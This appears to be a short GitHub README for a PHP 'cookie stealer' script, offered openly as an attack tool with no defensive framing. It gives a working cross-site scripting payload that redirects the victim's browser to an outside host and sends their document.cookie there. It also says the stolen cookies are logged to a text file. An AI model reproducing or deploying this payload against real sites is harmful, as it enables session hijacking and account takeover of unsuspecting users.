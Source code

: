 # C00ki3_sT3al3R
cookie stealer it is a simple script in php it is steal the victim cookie if the victim Redirect to it

 * EX : <script>document.location = "http://www.sad.org/cookies_stealer.php?c =" + document.cookie</script>
 * the sad_cookies.txt will be creating and contain victim information
